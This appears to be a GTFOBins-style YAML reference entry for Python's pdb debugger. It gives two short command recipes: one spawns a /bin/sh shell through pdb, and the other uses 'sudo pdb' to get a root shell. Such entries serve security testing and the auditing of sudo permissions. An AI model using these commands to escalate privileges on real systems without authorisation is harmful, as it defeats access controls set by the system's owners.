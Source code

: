 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'import os; os.system("/bin/sh")' > $TF
        pdb $TF
        cont
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'import os; os.system("/bin/sh")' > $TF
        sudo pdb $TF
        cont
---
```


